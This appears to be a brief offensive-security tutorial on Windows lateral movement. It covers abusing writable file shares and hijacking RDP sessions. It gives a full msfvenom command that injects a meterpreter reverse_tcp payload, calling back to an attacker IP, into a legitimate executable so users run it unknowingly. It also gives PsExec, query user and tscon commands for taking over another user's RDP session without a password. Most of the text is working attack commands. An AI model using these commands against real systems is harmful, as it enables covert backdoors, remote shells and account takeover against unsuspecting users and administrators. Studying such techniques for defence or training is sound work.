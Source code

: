 An attacker can take advantage of actions made by the users to gain further access to thier machines.

****Abusing Writable Shares****<br>

the shares files might be writable for some reasons, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines so if we find a **.exe** file we will download it from the share one and use our msfvenom to inject our payload into.
```
msfvenom -a x64 --platform windows -x file.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o FileAfter.exe
```
The resulting FileAfter.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections comming to us.


****RDP hijacking****

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely.
If we have administator level access we should be the SYSTEM level to **take over any existing RDP session without requiring a password**.
Now we will use the ```PsExec64.exe``` to acheive that goal.
```
PsExec64.exe -s cmd.exe
```
To list the existing sessions on a server:
```
query user
```
Now we will use the ```tscon``` it's used in windows to connect (or transfer) a user session from one session to another.
```
tscon <SessionIdThatWeWillTransferTo> /dest:rdp-tcp#6
```











